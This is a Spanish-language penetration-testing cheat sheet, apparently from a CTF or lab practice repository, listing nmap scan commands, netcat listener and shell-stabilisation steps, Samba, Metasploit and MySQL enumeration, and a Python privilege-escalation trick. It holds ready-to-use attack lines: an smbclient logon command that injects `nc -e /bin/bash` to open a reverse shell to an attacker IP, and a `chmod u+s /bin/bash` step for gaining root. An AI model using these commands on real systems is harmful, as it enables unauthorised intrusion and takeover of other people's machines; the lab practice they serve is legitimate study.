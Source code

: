 # Comandos interesantes

## NMAP

Todos los puertos, rapido y silencioso
<pre>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.168.193 -oG allPorts
</pre>
 
Puertos especificos
<pre>
nmap -sCV -p135,139,445,1688,3389,49152,49153,49154,49155,49156,49157 192.168.168.193 -oN targeted
</pre>

Puertos UDP, Los primeros 100
<pre>
nmap -sU -sCV -p1-100 192.168.168.193 -oN targetedUDP
</pre>

Especifico de vulnerabilidades sin intrusión
<pre>
nmap -p139,445 --script="Vuln and Safe" 192.168.168.193 -oN vulnScan 
</pre>

Enumeracion de directorios WEB básicos
<pre>
nmap --script http-enum -p80 10.10.10.180 -oN webScan
</pre>

## Netcap

Ponernos a la escucha:

<pre>
nc -nlvp 443
</pre>

Si es windows:

<pre>
rlwrap nc -nlvp 444
</pre>

Si es Linux podemos tunear la terminal recibida:

<pre>
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189

</pre>

Si la consola nos da problemas con **script /dev/null -c bash** podemos prbar con python:

</pre>
python3 -c 'import pty;pty.spawn("/bin/bash")'
</pre>

## Samba
Listar recursos:
<pre>
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"
</pre>

Conectarnos a un recurso y ejecutar comando:
<pre>
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
</pre>

lo subimos por el ftp anonimo y a la escucha con:

<pre>
nc -nlvp 443
</pre>

Fijarse bien en la IP que conecta.


## Metasploit

### Iniciar la primera vez

Arrancamos servicio de base de datos
<pre>
sudo service postgresql start
</pre>

Inicamos bbdd de metasploit

<pre>
sudo msfdb init
</pre>

Despues como siempre

<pre>
msfconsole
</pre>

## MYSQL

Tener en cuanta la utilidad **mysqlshow** para enumerar.

<pre>
mysqlshow -uadmin -padmin
</pre>

Ejecutar sentencia inline:
<pre>
mysql -uadmin -padmin -c "select * from ..." dbname
</pre>

## PYTHON

### Permisos de superusuario con privilegios a la consola

<pre>
impor os;
os.system("chmod u+s /bin/bash")
</pre>

Y luego **bash -p**
